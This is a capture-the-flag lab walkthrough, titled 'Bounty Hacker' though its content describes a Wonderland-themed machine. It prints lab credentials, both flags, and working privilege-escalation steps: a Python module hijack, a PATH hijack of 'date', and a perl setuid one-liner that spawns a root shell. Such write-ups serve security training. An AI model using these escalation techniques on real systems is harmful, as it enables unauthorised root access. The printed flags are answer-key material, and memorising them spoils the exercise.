



<head>
<h1><center>Bounty Hacker</center></h1>
</head>

## Description


<br>

## Enumeration

We are provided with the IP of the machine.

### Port Scan

&nbsp;&nbsp;Basic port scan shows that there are two open ports on the machine.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Port 80


Directory Scan shows

```
200      GET      http://10.10.234.26/main.css
301      GET      http://10.10.234.26/index.html
200      GET      http://10.10.234.26/img/white_rabbit_1.jpg
200      GET      http://10.10.234.26/
200      GET      http://10.10.234.26/img/alice_door.png
200      GET      http://10.10.234.26/img/
301      GET      http://10.10.234.26/img/index.html
200      GET      http://10.10.234.26/r/a/b/b/i/t/
```

After wandering around the website, I found the creds for user `alice` in the source code of the page `/r/a/b/b/i/t/`.



<br>


## SSH

Using the credentials we got in the source code, we can login to SSH.

```
username: alice
password: HowDothTheLittleCrocodileImproveHisShiningTail
```

Now first things first, I checked the users on the machine

```
1. root
2. hatter
3. rabbit
4. alice
5. tryhackme
```

I checked for the **SUID** bits but nothing useful.
But `sudo -l` showed something interesting.

```
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Here alice can run the above python script as user `rabbit`.

<br>

## Alice

The Python script consists of a poem of around 100 lines.

It is using `random` module to select 10 lines and print them.

```
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

Here we need a bit of understanding about importing modules..

Whenever a module is imported, python interpreter checks the current directory for the module and then proceeds for the PATH.

So we can abuse this by creating our own random module. 

This is the script `random.py`

```
import os

def choice(arg):
    os.system("/bin/bash")
```

If we run `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` we get the shell as user `rabbit`.

<br>

## Rabbit

Checking the rabbit's home directory shows a compiled binary `teaParty` owned by user `hatter` with **SUID** bit set on it..🥳

Decompiling the binary, we can see that it is using `date` command without absolute path.



We can use this to get the shell as the user `hatter`.

As we did earlier with the module random, we can create our own date script and add that directory at the start of **$PATH**.
This invokes our script instead of the actual `date` binary.

script

```
#!/usr/bin/python3.6

import os
os.system("/bin/bash")
```

Here since we have write permissions on the `/home/rabbit/` directory, I am creating the script there.
Else we have to do this in `/tmp`.

Don't forget to give the execute perms.

> chmod +x date

To add the path to **$PATH** we run the following command.

```
export PATH=/home/rabbit:$PATH
```

Now running the above script gives us the shell as user `hatter`

<br>

## Hatter

When we check the home directory of the user `hatter` we can see his password.

```
WhyIsARavenLikeAWritingDesk?
```

Now this is where I have taken most of the time..

At last I used [linpeas](https://linpeas.sh).
There is an interesting result



Here `perl` has **CAP_SETUID** capability set on it.

Heading over to GTFObins gave this command

```
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

We need to run the above command in `/usr/bin/`.
That gives us root shell..💀

<br>

user flag

```
thm{"Curiouser and curiouser!"}
```

root flag 

```
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```
